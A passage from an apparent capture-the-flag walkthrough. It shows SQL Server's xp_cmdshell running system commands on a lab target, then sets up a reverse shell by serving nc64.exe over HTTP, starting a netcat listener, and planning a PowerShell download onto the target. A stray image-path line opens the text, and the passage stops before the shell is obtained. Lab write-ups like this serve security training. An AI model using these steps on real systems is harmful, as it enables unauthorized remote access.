	NULL                                                                            
	
	NULL                                                                            


And now we can execute system commands:

	SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
	output              
	-----------------   
	archetype\sql_svc   
	
	NULL

Now, we will attempt to get a stable reverse shell. We will upload the `nc64.exe` binary to the target machine and execute an interactive `cmd.exe` process on our listening port.

The binary is available [here](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

We navigate to the folder where we placed the binary and then start the simple HTTP server, then the netcat listener in a different tab by using the following commands:

	# sudo apt update
	# sudo apt upgrade python3
	sudo python3 -m http.server 80
	sudo nc -lvnp 443

In order to upload the binary in the target system, we need to find the appropriate folder for that. We will be using `PowerShell` for the following tasks since it gives us much more features then the regular command prompt. In order to use it, we will have to specify it each time we want to execute it until we get the reverse shell. To do that, we will use the following syntax: `powershell -c` command.

The `-c` flag instructs the powershell to execute the command.

We can see the starting directory by running the following command:
`xp_cmdshell "cd"`

	SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "cd"
	output                
	-------------------   
	C:\Windows\system32   
	
	NULL                  


We found the folder where we have to place the binary. To do that, we will use the `wget` alias within PowerShell (`wget` is actually just an alias for `Invoke-WebRequest`):
`xp_cmdshell "powershell -c pwd"`

	SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c pwd"
	output                
	-------------------   
	NULL                  
	